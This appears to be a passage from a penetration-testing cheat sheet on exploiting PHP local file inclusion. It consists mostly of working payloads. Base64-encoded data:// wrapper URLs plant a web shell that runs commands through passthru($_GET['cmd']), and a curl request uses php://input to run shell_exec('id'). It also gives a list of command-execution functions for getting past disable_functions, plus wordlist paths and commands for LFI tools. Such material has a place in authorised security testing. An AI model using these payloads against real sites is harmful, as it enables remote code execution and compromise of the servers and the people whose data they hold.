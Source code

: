 ##### Wrapper data://

```
echo '<?php phpinfo(); ?>' | base64 -w0 -> PD9waHAgcGhwaW5mbygpOyA/Pgo=

http://example.com/index.php?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pgo=

If code execution, you should see phpinfo(), go to the disable_functions and craft a payload with functions which aren't disable.

Code execution with 
	- exec
	- shell_exec
	- system
	- passthru
	- popen

# Exemple
echo '<?php passthru($_GET["cmd"]);echo "Shell done !"; ?>' | base64 -w0 -> PD9waHAgcGFzc3RocnUoJF9HRVRbImNtZCJdKTtlY2hvICJTaGVsbCBkb25lICEiOyA/Pgo=

http://example.com/index.php?page=data://text/plain;base64,PD9waHAgcGFzc3RocnUoJF9HRVRbImNtZCJdKTtlY2hvICJTaGVsbCBkb25lICEiOyA/Pgo=

If there is "Shell done !" on the webpage, then there is code execution and you can do things like :

http://example.com/index.php?page=data://text/plain;base64,PD9waHAgcGFzc3RocnUoJF9HRVRbImNtZCJdKTtlY2hvICJTaGVsbCBkb25lICEiOyA/Pgo=&cmd=ls
```

##### Wrapper input://

```
curl -k -v "http://example.com/index.php?page=php://input" --data "<?php echo shell_exec('id'); ?>"
```

#### Useful LFI list

```
# Linux
/home/liodeus/wordlist/SecLists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt

# Windows
/home/liodeus/wordlist/SecLists/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt

# Both
/home/liodeus/wordlist/SecLists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt
```

#### Tools

```
kadimus --url <URL>
python lfisuite.py
```
